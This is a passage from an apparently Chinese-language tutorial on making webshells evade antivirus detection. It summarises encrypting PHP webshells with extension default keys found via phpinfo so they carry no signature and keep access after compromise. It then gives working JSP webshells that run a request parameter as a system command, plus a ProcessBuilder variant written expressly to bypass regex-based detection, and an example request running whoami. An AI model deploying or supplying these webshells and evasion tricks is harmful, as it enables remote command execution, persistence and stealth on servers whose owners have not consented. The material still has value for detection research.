 ### 3.总结

基于扩展的免杀，如果知道密钥，经加密后的webshell是不具备任何特征的，基本上直接通杀。

具体步骤通过phpinfo获取扩展信息，根据不同的加密扩展进行尝试利用默认密钥进行加密，通过访问webshell来判断密钥是否正确，当然，这种方法其实只能用于权限维持需要拿到权限后获取扩展文件破解后，才能稳定获取密钥，进而加密webshell

## 框架免杀

[什么？你还不会webshell免杀？（四） (qq.com)](https://mp.weixin.qq.com/s/_31K7YYjCI7VJtp_T-dFVg)

# JSP

## 内置函数免杀

### 原始webshell

```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.InputStreamReader" %>
<%@page language="java" pageEncoding="utf-8" %>


<%
    String cmd = request.getParameter("c");
    Process process = Runtime.getRuntime().exec(cmd);
    InputStream is = process.getInputStream();
    BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(is));
    String r = null;
    while((r = bufferedReader.readLine())!=null){
        response.getWriter().println(r);
    }
%>
```

查杀的点在于 `Runtime.getRuntime().exec` 非常明显的特征

```http
http://localhost:8080/webshell123/test9.jsp?c=whoami
```

### 利用ProcessBuilder

`Runtime.getRuntime().exec(cmd)` 其实最终调用的是 `ProcessBuilder` 这个函数，因此我们可以直接利用 `ProcessBuilder` 来替换 `Runtime.getRuntime().exec(cmd)`，从而绕过正则表达式

```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.InputStreamReader" %>
<%@page language="java" pageEncoding="utf-8" %>


<%
    String cmd = request.getParameter("c");
    Process process = new ProcessBuilder(new String[]{cmd}).start();
    InputStream is = process.getInputStream();
    BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(is));
    String r = null;
    while((r = bufferedReader.readLine())!=null){
        response.getWriter().println(r);
    }
%>
```